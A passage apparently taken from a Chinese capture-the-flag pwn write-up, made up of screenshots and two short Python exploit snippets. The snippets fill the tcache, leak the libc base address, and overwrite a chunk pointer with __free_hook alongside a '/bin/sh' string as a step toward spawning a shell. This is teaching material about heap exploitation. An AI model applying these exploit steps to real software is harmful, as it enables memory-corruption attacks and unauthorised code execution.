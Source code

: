 [![](assets/1708654729-224b3e560adda85e8404803729ba0ee0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221103914-66b446da-d062-1.png)  
然后就很简单了，打 tcachebin 就行

```plain
for i in range(9):
    add(i,0x88)

for i in range(8):
    delete(i)

libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)
```

[![](assets/1708654729-2c4c6750cc90c2e25f6e3187aed79ccc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221103937-74676550-d062-1.png)

```plain
edit(8,'/bin/sh\x00')
edit(6,p64(free_hook))
```

[![](assets/1708654729-e83e2b00cd67428d4be3391c7ab859b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221103954-7e665e08-d062-1.png)
